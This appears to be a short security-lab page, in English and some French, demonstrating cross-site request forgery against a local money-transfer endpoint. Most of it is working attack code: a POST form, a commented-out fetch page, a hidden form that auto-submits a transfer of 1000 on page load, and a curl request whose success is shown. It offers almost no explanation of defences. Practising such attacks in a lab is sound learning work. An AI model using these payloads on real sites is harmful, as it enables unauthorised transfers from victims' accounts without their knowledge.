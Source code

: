 ### First Method with an simple interface

<form action="http://localhost:8080" method="POST">

<input type="number" name="amount" value="100"/>
<input type="submit" value="Transfer Money"/>

### Second Method with an interface more developped ! and the content-type but not really needed because in that case we have, 1. Error: NetworkError when attempting to fetch resource. and 2. Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://localhost:8080/transfer. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 200.

<!-- <!DOCTYPE html>
<html lang="fr">
<head>
<meta charset="UTF-8">
<title>Test CSRF Interactif</title>
</head>
<body>
<h2>Test CSRF / Transfer Interactif</h2>

<p>Entrez le montant que vous voulez tester :</p>

<form id="csrfForm">
  <label for="amount">Montant :</label>
  <input type="number" id="amount" name="amount" value="50" min="1"/>
  <input type="submit" value="Envoyer POST"/>
</form>

<h3>Résultat :</h3>
<pre id="result"></pre>

<script>
document.getElementById('csrfForm').addEventListener('submit', async function(e) {
    e.preventDefault(); // Empêche le rechargement de la page

    const amount = document.getElementById('amount').value;

    try {
        const response = await fetch('http://localhost:8080/transfer', {
            method: 'POST',
            headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
            body: new URLSearchParams({ amount })
        });

        const data = await response.json();
        document.getElementById('result').textContent = JSON.stringify(data, null, 2);
    } catch (err) {
        document.getElementById('result').textContent = 'Erreur: ' + err.message;
    }
});
</script>
</body>
</html> -->

### Third method it transfer the amount without clicking on the submit button

<form action="http://localhost:8080/transfer" method="POST">
  <input type="hidden" name="amount" value="1000"/>
</form>
<script>
  document.forms[0].submit();
</script>

### Bonus method you only have to send this request with curl and bingo.

curl -X POST http://localhost:8080/transfer -d "amount=1000"

return value {"success":true}. So we can see the POST request has been accepted.